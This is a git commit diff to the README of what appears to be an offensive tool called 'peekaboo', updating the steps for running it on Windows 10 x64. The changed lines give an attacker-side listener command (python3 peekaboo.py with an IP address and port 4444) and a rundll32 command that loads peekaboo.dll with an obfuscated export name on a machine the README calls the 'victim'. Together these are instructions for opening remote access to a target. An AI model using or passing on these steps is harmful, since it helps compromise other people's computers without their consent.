

update readme: test windows 10 x64

Changed region(s): [[0.0, 0.0, 0.9935, 0.9664]]

diff --git a/README.md b/README.md
@@ -19,15 +19,15 @@ ip a
 
 run python script with flags:
 ```bash
-python3 peekaboo.py -l 10.9.1.6 -p 4444
+python3 peekaboo.py -l 192.168.1.64 -p 4444
 ```
 
 ![run python script](./screenshots/2.png?raw=true)
 
-### then on victim machine (windows x64):
+### then on victim machine (windows 10 x64):
 run on powershell or cmd promt:
 ```cmd
-rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
+rundll32 .\peekaboo.dll, fcPxxUxbQWtknoIZQxehCd
 ```
 
 ![run on victim machine](./screenshots/3.png?raw=true)
